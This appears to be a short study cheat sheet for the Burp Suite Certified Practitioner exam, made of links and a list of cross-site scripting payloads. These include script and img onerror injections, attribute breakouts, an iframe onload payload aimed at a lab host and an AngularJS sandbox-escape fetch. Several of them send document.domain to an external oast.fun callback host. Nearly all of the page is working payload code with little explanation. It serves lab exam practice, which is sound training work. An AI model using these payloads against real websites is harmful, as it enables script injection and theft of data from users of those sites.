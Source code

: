 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```


DOM Based XSS
```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

```html
<iframe src="https://0a190064039da4c7853828e6009e004c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

`
```js
"onfocus="alert(1)
```

```js
"onmouseover="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;
```

```js
';alert(1)//
```


# Practitioner

```html
"></select><img src=1 onerror=document.location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```

```js
{{constructor.constructor('fetch("https://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun")')()}}
```


